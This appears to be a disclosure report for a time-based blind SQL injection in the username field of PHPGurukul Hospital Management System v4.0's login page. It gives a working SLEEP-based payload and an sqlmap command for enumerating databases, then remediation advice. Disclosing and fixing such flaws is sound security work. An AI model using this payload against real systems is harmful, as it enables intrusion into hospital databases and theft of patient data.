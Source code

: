 
# Time-Based Blind SQL Injection Vulnerability Report

## Affected Product

| **Attribute**         | **Details**                                                                 |
|-----------------------|-----------------------------------------------------------------------------|
| **Product Name**      | Hospital Management System                                                  |
| **Vendor**            | PHPGurukul                                                                  |
| **Version**           | v4.0                                                                        |
| **Affected File**     | `/hospital/hms/user-login.php`                                              |
| **Affected Parameter**| `username`                                                                  |
| **Method**            | `POST`                                                                      |
| **Vulnerability Type**| Time-Based Blind SQL Injection                                              |

## Official Website

[PHPGurukul Hospital Management System v4.0](https://phpgurukul.com/hospital-management-system-in-php/)

## Vulnerability Overview

A time-based blind SQL injection vulnerability exists in the `username` parameter (email field) of **Hospital Management System v4.0**, allowing remote attackers to execute arbitrary SQL commands by triggering time delays in the database response.

## Steps to Reproduce

### 1. Access the Vulnerable URL

- Enable Burp Suite and configure your browser to route traffic through it.
- Visit the Patient Login page, which redirects to `user-login.php`.
- Fill in the email and password fields with any value and intercept the request.

```
http://192.168.137.197/hospital/hms/user-login.php
```

![Login Page](https://github.com/Ant1sec-ops/HMSv4.0-Blind-SQL-Injection/blob/main/1.png)

---

### 2. Intercept the Request

- Send the intercepted login request to **Repeater** in Burp Suite.
- Add an asterisk `*` to the `username` field to identify injection points.
- Save the modified HTTP request as `sql-login.txt` for SQLMap.

![Burp Repeater Modification](https://github.com/Ant1sec-ops/HMSv4.0-Blind-SQL-Injection/blob/main/2.png)

---

### 3. Manual Exploitation (Not Recommended)

- Use the following payload in the `username` field to test time-based SQL injection manually:

```sql
username=testemail@example.com' AND (SELECT 5152 FROM (SELECT(SLEEP(5)))VIxW) AND 'vNaU'='vNaU
```

> ⚠️ Manual testing of time-based injections is slow and prone to error. It's recommended to use **SQLMap** for automated exploitation and enumeration.

---

### 4. Automated Exploitation Using SQLMap

To list the databases via SQLMap:

- Open Kali Linux terminal and run:

```bash
sqlmap -r sql-login.txt --dbs
```

- This command uses the `sql-login.txt` request file (`-r` flag) and attempts to enumerate databases using the `--dbs` flag.

![SQLMap Database Enumeration](https://github.com/Ant1sec-ops/HMSv4.0-Blind-SQL-Injection/blob/main/3.png)

![SQLMap Database Enumeration](https://github.com/Ant1sec-ops/HMSv4.0-Blind-SQL-Injection/blob/main/5.png)

---

## Remediation

1. **Use Prepared Statements (Parameterized Queries):**  
   Avoid dynamic SQL queries that directly concatenate user input.

2. **Input Validation & Sanitization:**  
   Implement strong input validation and reject inputs containing SQL metacharacters.

3. **Least Privilege Principle:**  
   Ensure the database account used by the application has only the minimum required privileges.

4. **Web Application Firewall (WAF):**  
   Deploy a WAF to detect and block malicious SQL queries.

5. **Error Handling:**  
   Suppress detailed database errors from user-facing interfaces.

---

## References

- OWASP Top 10 - [A03: Injection](https://owasp.org/Top10/A03_2021-Injection/)
- [SQLMap Tool](https://sqlmap.org)
- [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

---

## Disclosure Timeline

| Date       | Activity                             |
|------------|--------------------------------------|
| 2025-06-01 | Vulnerability Identified via SQLMap  |

---

## Author

**Report generated by:** `Subhash Paudel`  
**Tool Used:** SQLMap  
